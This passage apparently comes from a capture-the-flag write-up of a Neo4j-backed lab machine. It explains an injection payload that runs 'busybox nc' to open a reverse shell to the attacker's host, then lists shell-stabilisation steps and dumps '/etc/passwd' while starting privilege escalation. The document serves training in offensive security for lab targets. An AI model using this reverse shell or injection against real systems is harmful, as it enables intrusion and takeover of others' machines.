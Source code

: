     - `busybox nc IP NC PORT -e sh`: Uses `busybox` (a lightweight Unix toolkit) to run `nc` (netcat), creating a **reverse shell** connecting to the attacker’s machine.
        
    - `#`: Comments out the rest of the URL to avoid syntax errors.
        
#### **3. Commenting Out Trailing Code (`;//`)**

- `//` at the end comments out any remaining parts of the original query (prevents syntax errors).


Once we know how this works, let's continue right onto privesc.


# PRIVILEGE ESCALATION
---


First thing is stabilizing our shell:

1. /usr/bin/script -qc /bin/bash /dev/null
2. CTRL + Z
3. stty raw -echo; fg
4. reset xterm
5. export TERM=xterm
6. export BASH=bash

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250313161553.png)

There we go, we got ourselves a nice stable shell, let's search for other users:

```
neo4j@cypher:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
syslog:x:103:104::/nonexistent:/usr/sbin/nologin
uuidd:x:104:105::/run/uuidd:/usr/sbin/nologin
tcpdump:x:105:107::/nonexistent:/usr/sbin/nologin
tss:x:106:108:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:107:109::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:989:989:Firmware update daemon:/var/lib/fwupd:/usr/sbin/nologin
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
graphasm:x:1000:1000:graphasm:/home/graphasm:/bin/bash
neo4j:x:110:111:neo4j,,,:/var/lib/neo4j:/bin/bash
```